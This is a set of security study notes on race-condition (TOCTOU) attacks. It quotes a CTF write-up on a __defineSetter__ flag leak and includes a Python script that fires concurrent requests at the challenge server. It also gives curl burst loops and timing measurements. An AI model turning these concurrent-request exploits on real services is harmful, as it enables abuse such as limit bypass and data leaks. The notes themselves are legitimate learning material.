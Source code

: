# keywords

- Concurrent Execution using Shared Resource with Improper Synchronization
- Time-of-check Time-of-use (TOCTOU)

# case studies

### __defineSetter__

https://github.com/mdsnins/ctf-writeups/blob/master/2020/TSGCTF/Beginners%20Web/beginners_web.md

> So when we give `input` as `FLAG_***SESSION***` and `converter` as `__defineSetter__`, it will be excuted as
> 
> ```js
> converters["__defineSetter__"]("FLAG_***SESSION***", (error, result) => {
>     if (error) {
>         reject(error);
>     } else {
>         resolve(result);
>     }
> });
> ```
> 
> Just send two concurrent packets very fast, it will give an answer!  Why? Because, early arrived packet already changed setter of `FLAG_***SESSION***`, and the other packet's request try to set `FLAG_***SESSION***` to `flagConverter`. It will raise an error and show `flagConverter.toString()` which contains a real flag

# methods

https://stackoverflow.com/questions/30686295/how-do-i-run-multiple-subprocesses-in-parallel-and-wait-for-them-to-finish-in-py

https://gist.github.com/0xParrot/310b71266ca2a6bfcaf26b5419c91a0d

```python
import threading
import requests
import time

cookie = {"sessionId" : "HcDcdC_lhEJjZPCM7S7nqdgi0kr32rYa.YTlYOIhk52YHs3NzP%2FFPuu6y7MK1ev6uX21jHbgxMXE"}
def sendPayload():
    r = requests.post("http://34.85.124.174:59101",json={"converter":"__defineSetter__","input":"FLAG_HcDcdC_lhEJjZPCM7S7nqdgi0kr32rYa"},cookies=cookie)
    print(r.text)

threading.Thread(target=sendPayload).start()
time.sleep(1)
requests.post("http://34.85.124.174:59101",json={"converter":"base64","input":"FLAG_HcDcdC_lhEJjZPCM7S7nqdgi0kr32rYa"},cookies=cookie)
```

### burst

```bash
for y in $(seq 1 8)
    do (for x in $(seq 1 50)
        do curl -s foo
    done)&
done
```

### burp suite intruder

[#488985 Race condition in claiming program credentials](https://hackerone.com/reports/488985)

# measuring methods

Compute average of differences in nanoseconds:

```bash
((date +%s%N)& (date +%s%N)& (date +%s%N)& (date +%s%N)& (date +%s%N)& (date +%s%N)& (date +%s%N)& (date +%s%N)& (date +%s%N)& (date +%s%N)&) > 1
c=; while read -r i; do c="(date +%s%N)& $c"; done <<< $(seq 1 10); eval $c > 2
seq 1 10 | xargs -i -P0 date +%s%N > 3

for i in 1 2 3; do awk 'NR==1{b=$0; next} {print $0-b; b=$0}' < "$i" | tee $(tty) | awk '{b+=$0} END{print "Average: " b/NR}'; done
```

Output:

```
610048
510720
1300480
846592
1355008
228096
685056
945152
1292032
Average: 863687
582400
677376
1081600
473088
510976
1487360
813312
1385216
1037056
Average: 894265
442112
396544
457984
392960
469760
429824
405504
368128
312320
Average: 408348
```
